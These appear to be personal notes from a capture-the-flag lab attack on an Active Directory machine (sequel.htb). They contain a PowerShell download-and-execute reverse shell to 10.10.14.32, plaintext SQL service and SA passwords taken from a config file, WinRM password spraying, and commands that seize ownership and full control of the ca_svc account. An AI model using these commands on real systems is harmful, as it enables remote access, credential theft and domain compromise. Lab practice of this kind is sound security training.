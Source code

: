 
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.32/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.32 -Port 8080



 # sql-configuration.INI

cat sql-Configuration.INI
[OPTIONS] ACTION="Install" QUIET="True" FEATURES=SQL INSTANCENAME="SQLEXPRESS" INSTANCEID="SQLEXPRESS" RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS" AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE" AGTSVCSTARTUPTYPE="Manual" COMMFABRICPORT="0" COMMFABRICNETWORKLEVEL=""0" COMMFABRICENCRYPTION="0" MATRIXCMBRICKCOMMPORT="0" SQLSVCSTARTUPTYPE="Automatic" FILESTREAMLEVEL="0" ENABLERANU="False"  SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS" 

SQLSVCACCOUNT="SEQUEL\sql_svc" SQLSVCPASSWORD="WqSZAF6CysDQbGb3" 

SQLSYSADMINACCOUNTS="SEQUEL\Administrator" SECURITYMODE="SQL" 

SAPWD="MSSQLP@ssw0rd!"

ADDCURRENTUSERASSQLADMIN="False" TCPENABLED="1" NPENABLED="1" BROWSERSVCSTARTUPTYPE="Automatic" IAcceptSQLServerLicenseTerms=True


# brute force passwords 

sudo netexec winrm 10.10.11.51 -u 'ryan' -p passwords.txt


WqSZAF6CysDQbGb3

this pass is also for ryan user


# bloodhound data collection

bloodhound-python -u 'ryan' -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.10.11.51 -c All

 ryan is write owner to CA_SVC 
 means ryan can edit atributes of it

bloodyad --host '10.10.11.51' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan' 
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc


# dacledit.py to edit the discretionary acess policy on the object and give ryan full control over it


dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' '10.10.11.51'/"ryan":"WqSZAF6CysDQbGb3"


# enumerated certificate templates with certipy using ryan account
